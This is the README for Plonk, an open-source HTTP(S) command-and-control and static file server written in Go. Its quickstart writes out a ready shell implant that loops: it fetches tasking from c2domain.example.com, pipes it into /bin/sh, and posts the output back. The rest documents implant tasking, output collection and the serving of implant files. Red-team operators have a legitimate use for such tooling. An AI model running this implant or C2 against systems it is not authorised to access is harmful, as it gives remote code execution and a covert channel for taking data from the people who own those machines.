 Plonk HTTP C2 and Static File Server
====================================
Plonk is a little HTTP(s) server program you can just plonk down and use for
quick'n'dirty C2ish infrastructure.  It serves static file and can serve
rudimentary tasking and take output.

Quickstart
----------
1. Start the C2 server
```bash
go install github.com/magisterquis/plonk@latest
plonk -h
plonk -letsencrypt c2domain.example.com
```
2. Get an implant going on target
```bash
while :; do
        curl -s https://c2domain.example.com/t/kittens | \
        /bin/sh | \
        curl --data-binary @- -s https://c2domain.example.com/o/kittens
        
        sleep 15
done
```
3. Tasking and output
```bash
plonk -interact kittens
ps awwwfux
```

Features
--------
- HTTP
- HTTPS with (in order of preference)
  - Automatic certificate provisioning with Let's Encrypt
  - Easy usage of custom certificates
  - Self-signed certificate generation
- Static file server
- Tasking over HTTP(s)
- Task output logging over HTTP(s)
- Simple interactive interface

Installation
------------
With a [typical Go installation](https://golang.org/...):
```sh
go install github.com/magisterquis/plonk@latest
```

Static And Default Files
------------------------
Static files placed in `plonk.d/files` will be served under the path `/f`, e.g.
a request for `https://example.com/f/tools/implant` will return
`plonk.d/files/tools/implant`.

Requests for unexpected paths (i.e. not in the table below) will be served
a static file, `plonk.d/index.html`.

Implants
--------
Plonk does not currently have any pre-built implants.  The Implant HTTP API
(such as it is) is a follows:

Default Endpoint | [Environment Variable](#Environment-Variables) | Description
-----------------|------------------------------------------------|-
`/f/<path>`      | `PLONK_FILESPREFIX`/`PLONK_STATICFILESDIR`     | Download a static file
`/t/<ImplantID>` | `PLONK_TASKPREFIX`                             | Retrieve tasking
`/o/<ImplantID>` | `PLONK_OUTPUTPREFIX`                           | Return output

The `/<ImplantID>` above may be omitted for an IDless implant.  To interact
with an IDless implant, `-task -` and `-interact -` may be used.  If more than
one implant doesn't provide an ImplantID, tasking will go to whichever asks
first.

Signals
-------
Plonk listens for two Signals, SIGHUP and SIGUSR1.

SIGHUP causes the following:
- Tasking file is closed and reopened.  This is useful for after editing it
  with vim.
- Certificates cached in memory are forgotten.  This is useful for manual
  certificate updating with no downtime.
- Seen implants are forgotten.  This is useful for logging the next callback
  of an implant which has already called back without using `-verbose`.

SIGUSR1 causes the following:
- Generated self-signed certificates are written to disk.  This is useful for
  restarting Plonk while an implant which checks a self-signed cert's
  fingerprint is still running.

Usage
-----
```
Usage: plonk [options]

  HTTP(s)-based static file and rudimentary C2 server.

  Upon starting, Plonk will make a directory (-work-dir, currently plonk.d),
  chdir into it, and make other supporting files and directories.  The names of
  these and several other things can be controlled with environment variables,
  listable with -print-env.

  TLS certificates may, in order of preference, be automatically provisioned
  using Let's Encrypt (-letsencrypt*), stored as pairs of
  plonk.d/certs/domain.tld.{crt,key}, or failing that, generated as
  self-signed certificates.

  Do not use -letsencrypt unless you accept Let's Encrypt's Terms of Service.

  Files and directories under plonk.d/files/ will served when Plonk gets a
  request for a path under /f/.

  C2 tasking is retrieved by a request to /t/<ImplantID>.  The /<ImplantID>
  may be empty; Plonk treats this as an IDless implant.  Tasking is stored in a
  single JSON file (currently plonk.d/tasking.json), which may be updated by
  hand or with -task or -implant, as below.  Plonk doesn't do anything to
  process tasking; whatever it gets it sends directly to the implant.

  Output from implants is sent in an HTTP request body to /o/<ImplantID>, or
  just /o for an IDless implant.

  HTTP verbs for all requests are ignored.  HTTP requests for paths other than
  the above are served a single static file, by default plonk.d/index.html.

  All of the above is logged in plonk.d/log.

  When Plonk gets a SIGHUP, it reopens the taskfile and forgets the self-signed
  certificates it's generated as well as its list of seen implants.  When Plonk
  gets a SIGUSR1, it writes the self-signed certificates it's generated to the
  local certificate directory.

  The first time Plonk is run, it is helpful to use -verbose.

Usage: plonk -task implantID|- [task...]

  Adds a task for the given implant, or - for the IDless implant.  This
  invocation af Plonk must be run with the same idea of the tasking file
  (currently plonk.d/tasking.json) as the server process.

Usage: plonk -implant implantID|-

  Interactive(ish) operation.  Given an implant ID (or - for the IDlessimplant)
  it queues as tasking non-blank, non #-prefixed lines it reads on standard
  input and displays relevant logfile lines on standard output.  Probably best
  used with rlwrap.  Like -task, this invocation of Plonk must be run with the
  same idea of the tasking file (currently plonk.d/tasking.json) as well as the
  logfile (currently plonk.d/log).

Options:
  -http address
    	HTTP address
  -https address
    	HTTPS address (default "0.0.0.0:443")
  -interact string
    	Interact with the given implant ID, or - for an IDless implant
  -letsencrypt domain
    	Use Let's Encrypt to provision certificates for the given domain (may be repeated)
  -letsencrypt-email address
    	Optional email address to use for Let's Encrypt
  -letsencrypt-staging
    	Use Let's Encrypt's staging server
  -print-env
    	Print the configuration environment variables
  -task ID
    	Queue a task for the given implant ID or - for an IDless implant
  -verbose
    	Log ALL the things
  -whitelist-self-signed domain
    	Allow self-signed cert generation for the given (possibly wildcarded) domain or IP address (may be repeated, default *)
  -work-dir directory
    	Working directory (default "plonk.d")
```

Environment Variables
---------------------
Plonk reads configuration from the following environment variables at runtime:

Variable|Default|Description
-|-
`PLONK_DEFAULTFILE`    |`index.html`   | File served for otherwise-unhandled requests
`PLONK_FILESPREFIX`    |`f`            | URL path prefix for requesting static files
`PLONK_HTTPTIMEOUT`    |`1m`           | HTTP request timeout
`PLONK_LECERTDIR`      |`lecerts`      | Let's Encrypt certificate cache directory
`PLONK_LOCALCERTDIR`   |`certs`        | Locally-configured (non-Let's Encrypt) certificate directory
`PLONK_LOGFILE`        |`log`          | Logfile
`PLONK_OUTPUTMAX`      |`10485760`     | Maximum output read in one request from an Implant
`PLONK_OUTPUTPREFIX`   |`o`            | URL path prefix used by implants to request to send output
`PLONK_STATICFILESDIR` |`files`        | Static files directory
`PLONK_TASKFILE`       |`tasking.json` | Queued tasking file
`PLONK_TASKPREFIX`     |`t`            | URL path prefix used by implants to request tasking

The list may also be printed with `-print-env`.

Filenames and directories above are taken as subdirectories of Plonk's working
directory, by default `plonk.d` unless they're absolute paths.
